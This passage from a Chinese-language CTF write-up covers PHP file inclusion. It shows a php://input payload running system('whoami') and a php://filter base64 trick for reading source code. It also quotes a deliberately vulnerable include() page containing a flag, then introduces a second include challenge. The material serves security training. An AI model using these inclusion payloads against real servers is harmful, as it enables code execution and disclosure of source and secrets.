 因此可以使用PHP伪协议测试是否存在文件包含漏洞

使用`php://input + [POST DATA]`执行php代码

执行系统命令

```php
url:index.php?php://input

[POST DATA]
<?php
	system("whoami");
?>
```

无法执行系统命令，可见存在对提交数据的过滤机制

![](https://gitee.com/YatJay/image/raw/master/img/202203132058854.png)

使用`php://filter/read=convert.base64-encode/resource=[文件名]`进行文件读取查看源码，可见`php://filter`伪协议可以成功执行

![](https://gitee.com/YatJay/image/raw/master/img/202203132100652.png)

base解码得到源码如下，index.php源码中存在flag

```php
<html>
    <title>asdf</title>
    
<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 
//flag:nctf{edulcni_elif_lacol_si_siht}

?>
</html>
```

而show.php中没有flag

![](https://gitee.com/YatJay/image/raw/master/img/202203132103646.png)

### i春秋——“百度杯”CTF比赛 2017 二月场

题目地址：https://www.ichunqiu.com/battalion?t=1&r=O   注册登录后选择Web类题目  题目名称为：50px include，创建项目后访问提示地址

![](https://gitee.com/YatJay/image/raw/master/img/202203132112567.png)

读所给的php代码可知其含义为：如果该页面接收REQUEST方式的参数传递，则包含该参数值作为包含文件的路径，如果该页面未接收REQUEST传递参数值，则包含phpinifo.php文件
